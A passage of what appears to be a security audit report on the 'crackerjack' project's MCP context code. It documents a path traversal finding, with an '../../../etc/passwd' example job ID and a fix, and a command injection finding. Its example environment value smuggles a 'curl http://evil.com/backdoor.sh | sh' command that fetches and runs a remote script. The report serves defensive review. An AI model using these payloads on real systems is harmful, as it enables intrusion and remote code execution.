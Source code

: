 ### 🔴 CRITICAL-002: Path Traversal in MCP Context
**File**: `crackerjack/mcp/context.py`
**Lines**: 511-516, 245-254

**Description**: The `create_progress_file_path()` method has insufficient validation allowing directory traversal attacks, and `validate_job_id()` regex validation can be bypassed.

**Attack Vector**:
```python
# Bypass job_id validation
job_id = "valid_name/../../../etc/passwd"
# The regex only checks character classes but allows path separators
# Path creation: progress_dir / f"job-{job_id}.json"
# Results in: /tmp/crackerjack-mcp-progress/job-valid_name/../../../etc/passwd.json
```

**Impact**:
- Arbitrary file read/write outside intended directories
- Access to sensitive system files
- Configuration file manipulation

**Mitigation**:
```python
def validate_job_id(self, job_id: str) -> bool:
    if not job_id or len(job_id) > 64:
        return False

    # SECURE: Strict validation
    if not re.match(r'^[a-zA-Z0-9_-]{1,64}$', job_id):
        return False

    # SECURE: Explicit path traversal prevention
    if any(dangerous in job_id for dangerous in ['..', '/', '\\', '~']):
        return False

    # SECURE: Use resolve() to check final path
    final_path = self.progress_dir / f"job-{job_id}.json"
    try:
        resolved = final_path.resolve()
        return resolved.parent == self.progress_dir.resolve()
    except OSError:
        return False
```

### 🔴 CRITICAL-003: Privilege Escalation via WebSocket Server Process
**File**: `crackerjack/mcp/context.py`
**Lines**: 307-322

**Description**: The WebSocket server spawning mechanism can be exploited to execute arbitrary commands with elevated privileges.

**Attack Vector**:
```python
# Manipulate environment to control subprocess execution
import os
os.environ["CRACKERJACK_WEBSOCKET_PORT"] = "8675; /bin/sh -c 'curl http://evil.com/backdoor.sh | sh'"

# The subprocess.Popen call becomes:
# [sys.executable, "-m", "crackerjack", "--start-websocket-server", "--websocket-port", "8675; /bin/sh -c ..."]
```
